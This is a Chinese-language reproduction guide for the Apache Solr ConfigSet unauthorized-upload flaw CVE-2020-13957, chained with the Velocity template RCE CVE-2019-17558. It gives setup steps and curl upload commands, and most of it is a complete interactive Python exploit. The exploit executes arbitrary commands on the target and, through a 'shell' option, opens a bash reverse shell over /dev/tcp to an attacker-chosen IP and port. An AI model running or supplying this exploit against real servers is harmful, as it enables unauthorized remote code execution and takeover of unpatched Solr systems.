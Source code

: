 # Apache Solr RCE 未授权上传漏洞 CVE-2020-13957

## 漏洞描述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 影响版本

```
Apache Solr 6.6.0 -6.6.5
Apache Solr 7.0.0 -7.7.3
Apache Solr 8.0.0 -8.6.2
```

## 环境搭建

选择一个存在漏洞的版本

[下载各版本Solr地址](http://archive.apache.org/dist/lucene/solr/)

这里复现使用的是 Apache Solr 7.7.0 进行复现

下载后执行以下命令进行环境部署

```plain
cd solr-7.7.0
./bin/solr start -e cloud -force
```

然后一路回车，直至出现

```plain
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```plain
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![image-20220209120644462](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091206515.png)

将 vuln.zip 进行上传

```plain
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

**n****ame参数为压缩包的文件名**

利用漏洞创建一个 core

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

- name参数为创建的core核心名
- collection.configName参数为上传的文件名

![image-20220209120700688](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091207778.png)

查看core列表，发现已经成功创建

![image-20220209120728074](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091207131.png)

再使用 Apache Solr Velocity模板远程执行 CVE-2019-17558 即可执行任意命令

- POC使用详情参考另一篇复现文章

![image-20220209120743727](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091207833.png)

## 漏洞POC

- 使用前按复现步骤上传对应版本的zip文件，例如我这里上传的文件为 qwert.zip,其他使用方法与 Apache Solr Velocity模板远程执行 CVE-2019-17558 的POC使用方法类似

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import re
import sys
import os
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr 6.6.0 -6.6.5        \033[0m')
    print('+  \033[34m         Apache Solr 7.0.0 -7.7.3        \033[0m')
    print('+  \033[34m         Apache Solr 8.0.0 -8.6.2        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2020-13957.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983   \033[0m')
    print('+  \033[36mZip    >>> vuln.zip(Zip文件名)            \033[0m')
    print('+------------------------------------------')


def POC_1(target_url, file_name):
    core_name = str(input("\033[35mPlease input Create Core Name\nCore >>> \033[0m"))
    core_update = """%s/solr/admin/collections?action=CREATE&name=%s&numShards=1&replicationFactor=1&wt=xml&collection.configName=%s""" % (target_url, core_name, file_name.replace(".zip",""))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    response = requests.get(url=core_update, headers=headers, timeout=30)
    if response.status_code != 200:
        print("\033[31m[x] 创建Core失败 \033[0m")
        sys.exit(0)
    else:
        core = re.findall(r'<str name="core">(.*?)</str>',response.text)[0]
        vuln_url = target_url + "/solr/" + core + "/config"
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core + "/config\033[0m")
        return vuln_url,core

def POC_2(target_url, core):
    open_params = target_url + "/solr/" + core + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    set_api_data = """
    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    """
    response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
    if response.status_code == 200:
        print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
    else:
        print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
        sys.exit(0)


def POC_3(target_url, core, cmd):
    vuln_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vuln_url, headers=headers, timeout=10)
    if "Error 500" in response.text:
        print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
    else:
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)

def POC_4(target_url, core, IP, PORT):
    # POC : /bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
    cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, PORT)
    vnul_url = target_url + "/solr/" + core + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = str(input("\033[35mPlease input File Name\nZip >>> \033[0m"))
    vuln_url,core = POC_1(target_url, file_name)
    POC_2(target_url, core)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_4(target_url, core, IP, PORT)
        else:
            POC_3(target_url, core, cmd)
```

![image-20220209120806051](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091208112.png)